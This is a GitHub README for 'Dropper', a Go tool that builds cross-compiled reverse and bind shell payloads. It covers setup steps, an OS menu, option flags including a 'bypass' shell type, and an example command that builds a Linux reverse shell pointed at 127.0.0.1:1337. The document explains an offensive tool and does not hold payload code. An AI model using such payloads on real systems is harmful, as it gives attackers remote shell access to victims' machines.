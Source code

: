 <h2>HEY! The current installment of Dropper 2.0 can be found here: https://github.com/im4x5yn74x/dropper2</h2>

Dropper

Cross compiling reverse/bind payload generator written in Go.
 
In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code><br>
<code>go run dropper.go</code>

+...|Choose an OS|...+
<br>
&#x2d; windows<br>
&#x2d; linux<br>
&#x2d; freebsd<br>
&#x2d; nacl<br>
&#x2d; netbsd<br>
&#x2d; openbsd<br>
&#x2d; plan9<br>
&#x2d; solaris<br>
&#x2d; dragonfly<br>
&#x2d; darwin<br>
&#x2d; android<br>

&#x3e;_: 

Feel free to compile it and provide arguments to quickly build your payloads. 

<code>go build dropper.go</code><br>
<code>./dropper -a 386 -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code><br>
<code>./dropper -h</code>
<pre>
Usage of ./dropper:
  -a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
  -l string
	Listening host: <listening ip:port>
  -o string
	Output filename: <anything goes>
  -p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
  -s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh, /bin/busybox, bypass
  -t string
	Payload type: bind/reverse
</pre>
 
